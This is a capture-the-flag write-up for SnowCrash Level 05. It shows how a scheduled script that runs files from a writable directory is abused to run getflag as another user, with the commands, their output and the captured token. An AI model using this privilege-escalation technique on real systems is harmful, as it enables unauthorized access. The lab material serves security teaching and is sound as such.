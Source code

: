 # Level 05

## Initial Reconnaissance
There aren't files in the home of level05 user. But like level00, we can search for files owned by flag05.

```
level05@SnowCrash:~$ find / -user flag05 2>/dev/null
/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

## Vulnerability Found
It looks like there is a service running everything in /opt/openarenaserver, very likely as user flag05.

```
level05@SnowCrash:/opt/openarenaserver$ ls -al
total 0
drwxrwxr-x+ 2 root root 40 Jun 27 10:24 .
drwxr-xr-x  1 root root 60 Jun 27 10:24 ..
```

We can see that we have write access to the directory.

## Exploitation Steps

Let's write a simple script that will execute the getflag command and save the output in a file.

```bash
echo -e '#!/bin/bash\ngetflag > /tmp/flag.txt' > /opt/openarenaserver/rungetflag.sh
chmod +x /opt/openarenaserver/rungetflag.sh
```

After waiting a few seconds, we can see that the file has been executed.

```
level05@SnowCrash:~$ cat /tmp/flag.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

## Additional Notes

